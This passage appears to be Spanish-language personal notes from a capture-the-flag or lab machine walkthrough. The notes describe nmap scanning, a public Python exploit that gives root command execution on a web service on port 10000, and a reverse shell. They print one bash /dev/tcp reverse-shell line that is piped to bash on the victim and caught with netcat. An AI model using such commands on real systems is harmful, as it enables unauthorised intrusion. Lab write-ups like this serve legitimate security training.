 Vamos a hacer un reconocimiento con nmap y nos encuentra el puerto 22 y el puerto 10000:
![[Mis apuntes/ANEXOS/Pasted image 20230403105650.png]]
Vemos que tenemos un servicio web corriendo por el puerto 10.000, que utiliza SSL por lo que tenemos que poner la URL como https:
![[Mis apuntes/ANEXOS/Pasted image 20230403105911.png]]
Si buscamos por internet, podemos ver que existe un exploit en python que nos permite ejecutar comandos si lo lanzamos contra esta web:
![[Mis apuntes/ANEXOS/Pasted image 20230404123527.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230404123542.png]]
Por tanto vamos a probar en descargarlo y vemos las instrucciones:
![[Mis apuntes/ANEXOS/Pasted image 20230404123612.png]]
Lo probamos utilizando los parámetros oportunos y vemos que tenemos ejecución remota de comandos, y además siendo el usuario root:
![[Mis apuntes/ANEXOS/Pasted image 20230404123650.png]]
Es importante recalcar que para esta herramienta los comandos deben ir entre comillas, para que se interpreten correctamente los espacios:
![[Mis apuntes/ANEXOS/Pasted image 20230404124626.png]]
Por tanto vamos a compartir el código para obtener la reverse shell con python y lo pipeamos con bash desde la máquina víctima mientras estamos escuchando con netcat:
```python
bash -i >& /dev/tcp/10.10.16.27/443 0>&1
```
Subimos esto a un servidor web con python:
![[Mis apuntes/ANEXOS/Pasted image 20230404124951.png]]
Lo ejecutamos en la máquina víctima pipeándolo con bash:
![[Mis apuntes/ANEXOS/Pasted image 20230404125013.png]]
Y recibiremos la shell reversa con netcat:
![[Mis apuntes/ANEXOS/Pasted image 20230404125034.png]]
